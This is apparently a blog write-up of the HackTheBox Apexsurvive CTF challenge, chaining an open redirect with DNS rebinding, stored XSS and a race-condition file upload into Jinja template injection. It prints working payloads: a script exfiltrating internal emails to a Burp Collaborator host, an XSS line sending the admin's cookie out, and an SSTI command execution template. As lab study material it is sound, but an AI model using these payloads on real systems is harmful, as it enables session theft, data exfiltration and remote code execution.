 +++
title = 'HackTheBox Cyber Apocalypse 2024 Apexsurvive Writeup'
date = 2024-03-14T17:38:37+01:00
draft = false
+++

## First Steps
We analyze the code and notice the email page will only show emails addressed to *test@email.htb*.

![EmailCode](test-email.png)

We create a user with the email *test@email.htb* and confirm the registration by visiting the link from an email.

![Verify email 1](verify-email-1.png)

![Verify email 2](verify-email-2.png)

## DNS Rebinding to Activate an Internal User
Upon further code inspection, we found out that users who sign up with an email hosted at *apexsurvive.htb* will be marked as internal users.

![VerificationCode](apexsurvive-email.png)

There's an */external* API endpoint that can be used for an open redirect.

![Open redirect](open-redirect.png)

The emails are served by Mailhog running on port 9000 and can be internally retrieved by using the */api/v2/messages* endpoint.

![Mailhog port](mailhog-port.png)

We create a user *asdf@apexsurvive.htb*.

![Apex register](apex-register.png)

We log in and request a verification email. It won't appear in emails on the website.

![Apex verify](apex-verify.png)

We'll use the */external* endpoint for an open redirect to our controlled website and then do DNS rebinding to fetch emails from Mailhog running on port 9000 and get the confirmation email for the internal user. To do this, we'll set up an EC2 instance with a public IP address and then add a DNS NS record for it (keep in mind the dot at the end):

![DNS config](dns-config.png)

We have to allow incoming traffic from ports UDP 53 (for DNS) and TCP 9000 (for the HTTP server) at minimum. We configure the security group of our EC2 instance as following.

![Security group configuration](security-group.png)

On the instance, we'll run https://github.com/mogwailabs/DNSrebinder to change the resolution of my domain from EC2 public IP address to 127.0.0.1 after a moment:

    sudo python3 dnsrebinder.py --domain dynamic.mywebsite.xyz. --rebind 127.0.0.1 --ip <website-public-ip> --counter 1 --udp --ttl 1

We'll also run an HTTP server on it serving index.html that keeps fetching /api/v2/messages for Mailhog emails and then sends them back to us. **Remember it has to be on the same origin (port 9000).**

    sudo python3 -m http.server 9000

*index.html* served by the HTTP server:

    <html>
    <body>
    <script>
        (function () {
            var axhr = new XMLHttpRequest();
            axhr.open('GET', 'http://myburpcollab.oastify.com?start=start');
            axhr.send()
            var interval = setInterval(function () {
                var xhr = new XMLHttpRequest();
                xhr.open('GET', 'http://dynamic.mywebsite.xyz:9000/api/v2/messages', false);
                xhr.onload = function () {
                    if (xhr.status != 200) { return; }
                    var xhr2 = new XMLHttpRequest();
                    xhr2.open('GET', `http://myburpcollab.oastify.com?msgs=${btoa(this.responseText)}`);
                    xhr2.send();
                };
                xhr.send()
            }, 200)
        })();
    </script>
    </body>
    </html>

The script keeps fetching *http://dynamic.mywebsite.xyz:9000/api/v2/messages* in short intervals. which is on the same origin. After a while our DNS rebinder should switch from the EC2 IP address to localhost. Then, the script will successfully fetch the emails and send them back to us in base64.

We log in as *test@email.htb* and report:

    ../external?url=http://dynamic.mywebsite.xyz:9000/

We notice how after a short moment our DNS server starts resolving our domain to 127.0.0.1 instead of our public IP.

![DNS rebind](dns-rebind.png)

It might take about 1 minute before the domain resolution is updated to 127.0.0.1. The first callback after the one with query parameter *start=start* one contains base64 encoded emails from Mailhog API. We decode them and get the confirmation link for the internal user.

![Exfiltrated emails](exfiltrated-emails.png)
![Base64 emails](base64-emails.png)

## Stored XSS to Steal the Session Cookie From the Admin
As an internal user, we now can add products. In */application/templates/product.html* we notice that the *product.note* (Product manual) from an input controlled by us is not sanitized and allows us to escape JS backticks.

![Product note JS string escape](product-note.png)

We add any new product and in the product manual we put in:

    `;fetch("https://myburpcollab.oastify.com/xss?c="+document.cookie);let x=`

![Add product](add-product.png)

We double-check we escaped JS backticks after adding the product:

![JS backtick escape](js-backtick-escape.png)

After we create it, we make the admin visit it by reporting its assigned product number. We take the admin session cookie from the callback.

![Admin session XSS](admin-session-xss.png)

## Leveraging a Race Condition for SSTI Leading to RCE
As an admin, we now can add PDF contracts. We notice that:
- the file is always saved to the same location before checking it’s a PDF,
- we can save the file anywhere by path traversal using “..” in the filename,
- the PDF check takes the temporary file from the file system, not directly from the request.

![Race condition in PDF upload](pdf-upload-race-condition.png)

As a result, **there’s a race condition between saving the temp file and checking that it’s a PDF.**

We prepare 2 files:
1) a small PDF,
2) a Jinja template that’ll read out the flag:

        Result {{ self.__init__.__globals__.__builtins__.__import__('os').system('/readflag > /app/application/static/images/flag.txt') }}

We upload both and add them to a burp repeater group like so:

![Burp parallel requests setup 1](burp-parallel-1.png)
![Burp parallel requests setup 2](burp-parallel-2.png)

We try sending them multiple times using “Send group (parallel)”. We can play around with the number of PDF/Jinja template requests in the group. We watch out for *message: Contract added* in a response to a Jinja template upload. We check for it by refreshing any product page multiple times. If we see our payload, the flag is available under */static/images/flag.txt*.

![Result 0](result-0.png)
![Apex flag](apex-flag.png)

## References
- https://unit42.paloaltonetworks.com/dns-rebinding/
- https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
- https://portswigger.net/research/smashing-the-state-machine